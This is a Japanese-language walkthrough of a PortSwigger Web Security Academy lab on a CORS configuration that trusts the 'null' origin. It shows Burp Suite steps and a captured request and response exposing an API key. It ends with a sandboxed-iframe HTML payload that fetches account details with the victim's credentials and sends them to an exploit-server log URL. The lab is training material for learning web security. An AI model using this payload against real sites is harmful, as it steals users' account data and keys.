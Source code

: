 # 信頼できる null オリジンによる CORS の脆弱性

次のハッキングラボを実施します。  
https://portswigger.net/web-security/cors/lab-null-origin-whitelisted-attack  
この Web サイトには、「null」オリジンを信頼するという点で、 安全でない CORS 構成が採用されています。

- 1. BurpSuite を起動して、Proxy タブからブラウザを起動します
- 2. ハッキングラボにアクセスします
- 3. 一般ユーザーでログインします
- 4. GET /accountDetails HTTP/2 　リクエストを send to repeater します
- 5. Origin ヘッダーを null 値で付加して送信します

```
GET /accountDetails HTTP/2
Host: 0abf007003055d1d80485dc400b60050.web-security-academy.net
Cookie: session=VkoithuS4V8lVJYVjAhyyy3Mx2oTjulJ
Sec-Ch-Ua:
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.5845.97 Safari/537.36
Sec-Ch-Ua-Platform: ""
Accept: */*
Origin: null
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Accept-Encoding: gzip, deflate
Accept-Language: ja,en-US;q=0.9,en;q=0.8
```

レスポンス

```
HTTP/2 200 OK
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 149

{
  "username": "wiener",
  "email": "",
  "apikey": "2FotyiQoqorNZ1RFjsKGMysahqUd6AUn",
  "sessions": [
    "VkoithuS4V8lVJYVjAhyyy3Mx2oTjulJ"
  ]
}
```

Access-Control-Allow-Origin: null がセットされています。

- 6.エクスプロイト サーバーに移動し、次の HTML を入力します。

```html
<iframe
  sandbox="allow-scripts allow-top-navigation allow-forms"
  srcdoc="<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','YOUR-LAB-ID.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();
    function reqListener() {
        location='YOUR-EXPLOIT-SERVER-ID.exploit-server.net/log?key='+encodeURIComponent(this.responseText);
    };
</script>"
></iframe>
```

- 7. Store ボタンを押して、deliver exploit to victim ボタンを押します。
